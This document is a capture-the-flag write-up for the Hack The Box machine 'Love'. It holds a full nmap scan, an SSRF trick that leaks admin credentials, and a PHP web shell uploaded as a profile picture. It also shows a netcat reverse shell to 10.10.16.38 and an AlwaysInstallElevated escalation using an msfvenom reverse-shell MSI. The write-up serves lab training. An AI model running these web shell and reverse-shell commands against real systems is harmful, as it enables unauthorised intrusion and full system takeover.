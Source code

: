 # Love

IP=10.10.10.239

## Solution

Start with an nmap
```bash
PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http         syn-ack ttl 127 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/localityName=norway/emailAddress=roy@love.htb/organizationalUnitName=love.htb
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/localityName=norway/emailAddress=roy@love.htb/organizationalUnitName=love.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0 1add 5048 afc8 b3cf 7140 6e68 5ff6
| SHA-1: 83ed 29c4 70f6 4036 a6f4 2d4d 4cf6 18a2 e9e4 96c2
| -----BEGIN CERTIFICATE-----
| MIIDozCCAosCFFhDHcnclWJmeuqOK/LQv3XDNEu4MA0GCSqGSIb3DQEBCwUAMIGN
| MQswCQYDVQQGEwJpbjEKMAgGA1UECAwBbTEPMA0GA1UEBwwGbm9yd2F5MRYwFAYD
| VQQKDA1WYWxlbnRpbmVDb3JwMREwDwYDVQQLDAhsb3ZlLmh0YjEZMBcGA1UEAwwQ
| c3RhZ2luZy5sb3ZlLmh0YjEbMBkGCSqGSIb3DQEJARYMcm95QGxvdmUuaHRiMB4X
| DTIxMDExODE0MDAxNloXDTIyMDExODE0MDAxNlowgY0xCzAJBgNVBAYTAmluMQow
| CAYDVQQIDAFtMQ8wDQYDVQQHDAZub3J3YXkxFjAUBgNVBAoMDVZhbGVudGluZUNv
| cnAxETAPBgNVBAsMCGxvdmUuaHRiMRkwFwYDVQQDDBBzdGFnaW5nLmxvdmUuaHRi
| MRswGQYJKoZIhvcNAQkBFgxyb3lAbG92ZS5odGIwggEiMA0GCSqGSIb3DQEBAQUA
| A4IBDwAwggEKAoIBAQDQlH1J/AwbEm2Hnh4Bizch08sUHlHg7vAMGEB14LPq9G20
| PL/6QmYxJOWBPjBWWywNYK3cPIFY8yUmYlLBiVI0piRfaSj7wTLW3GFSPhrpmfz0
| 0zJMKeyBOD0+1K9BxiUQNVyEnihsULZKLmZcF6LhOIhiONEL6mKKr2/mHLgfoR7U
| vM7OmmywdLRgLfXN2Cgpkv7ciEARU0phRq2p1s4W9Hn3XEU8iVqgfFXs/ZNyX3r8
| LtDiQUavwn2s+Hta0mslI0waTmyOsNrE4wgcdcF9kLK/9ttM1ugTJSQAQWbYo5LD
| 2bVw7JidPhX8mELviftIv5W1LguCb3uVb6ipfShxAgMBAAEwDQYJKoZIhvcNAQEL
| BQADggEBANB5x2U0QuQdc9niiW8XtGVqlUZOpmToxstBm4r0Djdqv/Z73I/qys0A
| y7crcy9dRO7M80Dnvj0ReGxoWN/95ZA4GSL8TUfIfXbonrCKFiXOOuS8jCzC9LWE
| nP4jUUlAOJv6uYDajoD3NfbhW8uBvopO+8nywbQdiffatKO35McSl7ukvIK+d7gz
| oool/rMp/fQ40A1nxVHeLPOexyB3YJIMAhm4NexfJ2TKxs10C+lJcuOxt7MhOk0h
| zSPL/pMbMouLTXnIsh4SdJEzEkNnuO69yQoN8XgjM7vHvZQIlzs1R5pk4WIgKHSZ
| 0drwvFE50xML9h2wrGh7L9/CSbhIhO8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?       syn-ack ttl 127
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '10.10.16.38' is not allowed to connect to this MariaDB server
| mysql-info: 
|_  MySQL Error: Host '10.10.16.38' is not allowed to connect to this MariaDB server
5000/tcp open  http         syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

Host script results:
|_clock-skew: mean: 2h41m32s, deviation: 4h02m30s, median: 21m31s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 17572/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 46453/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58543/udp): CLEAN (Timeout)
|   Check 4 (port 21885/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-06T08:59:30-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-06T15:59:29
|_  start_date: N/A
```

We can spot several things just by examining the nmap result:
- Might have smb shares with some creds
- No HTTPONLY flag in session cookies (allows cookie theft via XSS)
- Two hosts -> love.htb && staging.love.htb
- potential user -> roy@love.htb

After adding the hosts to **/etc/hosts** we can see that they provide different stuff
- love.htb -> just login form (does not enable user enumeration via error messages)
- staging.love.htb -> Free file scanner


Since i did not have creds for the **love.htb** i started from the other. It asks for a file at a given URL, it allows to perform RFI because it does not restrict address to **127.0.0.1** 

If we use something like **http://127.0.0.1/index.php" we can see that it renders the index page from the love.htb address 

After this, i did not had much, so i went ahead and fuzzed both hosts and found a **/admin** in the **love.htb**. This page leaks users because it gives a different message when trying to login as admin (which is an user that i found just by trying usernames)

Again, i did not had much, and started poking at other stuff:
- No smb shares
- Port 5000 requires creds

Well, what if we use the port 5000 index in the Free file scanner? Yup, it will give what we need, CREDS :D ```admin:@LoveIsInTheAir!!!!```

using those for the **love.htb/admin** we are provided with a dashboard that does not allow us to do much, but it allows to upload a profile picture!!! hummmmm 

At this point i figured that the **/images** i found during fuzzing serves a purpose, until this time it was just a normal thing!

We can actually upload **.php** files which we can include and execute via the free file scanner functionality. For this, i uploaded a simple backdoor to execute commands
```php
<?php system($_REQUEST['cmd']) ?>
```

Trying a reverse shell directly just proved to be kinda hard due to the encoding it uses so i uploaded a **netcat executable** and did not even used burp since it was not working at all

At the webpage form field i used ```http://127.0.0.1/images/www.php?cmd=.\waza.exe+-e+cmd.exe+10.10.16.38+8089``` to obtain the reverse shell !
```bash
cmd: whoami
love\phoebe

# lets get the user flag
cmd: type C:\Users\Phoebe\Desktop\user.txt
```

I will not post the actual flag hash to avoid a new ban ahah, suck my rick htb! ahahahah

Since i know very little about windows, i went to manual enumerate the system to gain a bit more knowledge.

I found that two registry keys are set (**AlwaysInstallElevated**) which indicates that **every msi** executed will **run as system** so i just needed to generate a msi file to give me a reverse shell.
```bash
# If these 2 registry keys are enabled (value is 0x1), then users of any privilege can install (execute) *.msi files as NT AUTHORITY*SYSTEM*.
 
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated   # 0x1
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated   # 0x1
```


For that i used **msfvenom** which i rarely/never use
```bash
# generate the file
cmd (local): msfvenom --platform windows --arch x86 --payload windows/shell_reverse_tcp LHOST=10.10.16.38 LPORT=1414 --encoder x86/xor --iterations 9 --format msi --out waza.msi

# upload it to the machine via the profile pictures functionality

# to execute
cmd (remote): msiexec /quiet /qn /i waza.msi

cmd (shell): whoami 
nt authority\system

# get the flag
cmd (shell): type C:\Users\Administrator\Desktop\root.txt
```